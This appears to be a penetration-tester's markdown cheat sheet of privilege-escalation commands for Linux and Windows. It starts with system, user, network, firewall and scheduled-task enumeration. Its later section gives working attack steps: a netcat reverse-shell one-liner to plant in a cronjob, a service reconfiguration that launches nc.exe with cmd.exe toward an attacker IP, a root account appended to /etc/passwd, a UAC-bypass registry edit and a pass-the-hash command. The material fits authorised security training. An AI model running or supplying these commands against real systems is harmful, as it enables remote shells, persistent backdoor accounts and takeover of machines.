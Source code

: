 ##### Basic Privilege Escalation Enumeration

###### Basic Privesc Enumeration for Linux
```
whoami
whoami /priv // Privileges info
---
id
---
cat /etc/passwd // Discover other users
---
hostname
---
cat /etc/issue // OS
--- 
cat /etc/*-release // OS + More info
---
uname -a // Exact Package
---
ps aux // Processes
---
ifconfig
---
ip a // ifconfig
---
/sbin/route // Network map / Could be routel depending on distro
---
ss -anp // Active network connections
```
###### Enumerating Firewalls for Linux
Need root for iptables but...
```
cat /etc/iptables // Check for this 
---
cat /etc/iptables-backup
---
cat /etc/iptables | grep 'iptables-save' // iptables-restore
```
###### Enumerating Scheduled Tasks for Linux
```
ls -lah /etc/cron* //List Tasks
---
cat /etc/crontab // Inspect Carfully 
```
###### Enumerating installed applications for Linux
```
dpkg -l | grep -i APP(ie.pam)

---
```
###### Enumerating R/W files for Linux
```
find / -writable -type d 2>/dev/null
---
```
###### Enumerating Unmounted Disks for Linux
```
mount // Show mounts
---
cat /etc/fstab // Check Mounting configs
---
/bin/lsblk  // View all available disks 
---
```
###### Enumerating Drivers and Kernal Modules for Linux
```
lsmod
---
s/sbin
---
/sbin/modinfo <module> //How to view modules
```
###### SUID for Linux
```
find / -perm -u=s -type f 2>/dev/null
```
###### Find files and groups
```
find /home -printf "%f\t%p\t%u\t%g\t%m\n" 2>/dev/null|column -t
```
***
###### Basic Privesc Emumeration for Windows
```
whoami
whoami /priv
---
net user // Discover other users
---
net user <user> // Enumerate info for selected user
---
hostname
---
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type" // View System Info
---
tasklist /SVC // Processes
---
ipconfig /all
---
route print // network routing tables 
---
netstat -ano // Veiw active network connections 
a = all active TCP connection
n = ip/ports
o = PID
```
###### Enumerating Firewalls for Windows
```
netsh advfirewall show currentprofile // Current firewall profile
---
netsh advfirewall firewall show rule name=all // Firewall rules
```
###### Enumerating Scheduled Tasks for Windows
```
schtasks /query /fo LIST /v // List Tasks
```
###### Enumerating installed applications for Windows
```
wmic product get name, version, vendor // Info on installed apps
---
wmic qfe get Caption, Description, HotFixID, InstalledOn // Full Sys updates
```
###### Enumerating R/W files for Windows
```
[Download accesschk.exe onto Target]
accesschk.exe -uws "Everyone" "<Path to DIR>" // Will check for w-W files 
---
[powershell]
Get-ChildItem "<PATH TO DIR>" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}
```
###### Enumerating Unmounted Disks for Windows
```
mountvol
```
###### Enumerating Drivers and Kernal Modules for Windows
```
driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object 'Display Name', 'Start mod
e', Path // Lists display name, start mode and path
---
 Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer | Where-Object {$_.DeviceName -like "*VMware*"} //Target specific drivers
```
###### AutoElevate Binaries for Windows
```
regedit //opens Registry Editor 
---
reg query HKEY_CURRENT_USER
---
REG ADD HKCU\path\to\Shell\Open\command /v DelegateExecute /t REG_SZ
```
###### 
Insecure file permissions for Windows
```
Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'} // shows service/path
---

```
***
#### The Automated Stuff
###### Windows
```
windows-privesc-check2.exe // http://pentestmonkey.net/windows-privesc-check

windows-privesc-check2.exe--dump -G Dump Groups 
---
windows-privesc-check2.exe --dump -G -H // Dump Groups & Shares
---
windows-privesc-check2.exe --dump -M -V // Dump password policy & privs for users and groups
---
windows-privesc-check2.exe -A // All files and Dirs
--
windows-privesc-check2.exe --pyshell // o.O 
---
procmon.exe
---
sigcheck.exe -a -m C:\path\to\binarie
---
sc config upnphost binpath= "C:\Inetpub\wwwroot\nc.exe YOUR_IP 1234 -e C:\WINDOWS\System32\cmd.exe"  //XP SP1 2001 
sc config upnphost obj= ".\LocalSystem" password= ""
sc qc upnphost
```
###### Linux 
```
./unix-privesc-check // http://pentestmonkey.net/tools/unix-privesc-check
---
./unix-privesc-check standard
---
./unix-privesc-check detailed 
```
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP><PORT> >/tmp/f" // write this to a file in a cronjob
---
```
```
Injecting a superuser into /etc/passwd
openssl passwd <newpassword> // Populate password hash
-
echo "<NEW USERNAME>:<HASH>:0:0:root:/root:/bin/bash" >> /etc/passwd // add user to passwd
- 
su <new username> // rooted ;)
```
###### Windows
```
[Examples]

whoami /groups // Look for Medium integrity level
-
net user admin NewPassword // Try set new password (Most likely will fail)
-
powershell.exe Start-Process cmd.exe -Verb runAs // Privesc
```
```
wmic service where caption="Service" get name, caption, state, startmode // Check start mode and active status
---
pth-winexe -U <user>%<lm hash>:<NTLM hash> //<Target IP> cmd /// Pass the Hash 
```
